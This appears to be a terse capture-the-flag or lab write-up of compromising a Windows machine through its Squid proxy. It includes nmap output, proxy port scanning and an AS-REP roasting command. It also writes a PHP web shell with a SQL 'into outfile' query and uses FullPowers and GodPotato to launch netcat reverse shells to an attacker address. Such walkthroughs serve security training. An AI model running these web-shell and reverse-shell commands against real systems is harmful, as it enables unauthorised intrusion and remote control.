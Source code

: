 #Pawned 
## Nmap
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3128/tcp open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-23T08:13:48
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923103015.png?raw=true)
## Nmap UDP


# Enumeration

## HTTP
https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid
```
python spose.py --proxy http://192.168.185.189:3128 --target 192.168.185.189
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923103103.png?raw=true)
```
/usr/share/doc/python3-impacket/examples/GetNPUsers.py squid.pg/webmaster
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923105025.png?raw=true)

Proxy with FoxyProxy 192.168.185.189:3128 to 192.168.185.189:8080
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923112856.png?raw=true)

```
select '<?php system($_GET["cmd"]); ?>;' into outfile 'C:/wamp/www/shell2.php'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133305.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133358.png?raw=true)


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133458.png?raw=true)



# PrivEsc

## Manual


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133546.png?raw=true)

FullPowers.exe not being usefull:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133646.png?raw=true)

```
.\FullPowers.exe -c '.\www\nc.exe 192.168.45.200 1234 -e cmd.exe'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133736.png?raw=true)

But it gives us permissions
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133939.png?raw=true)

```
.\GodPotato-NET4.exe -cmd ".\www\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.200 1234"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923134620.png?raw=true)

```
.\GodPotato-NET4.exe -cmd ".\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.225 9001"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241111103141.png?raw=true)
## Automated

### Peass
### Mimikatz

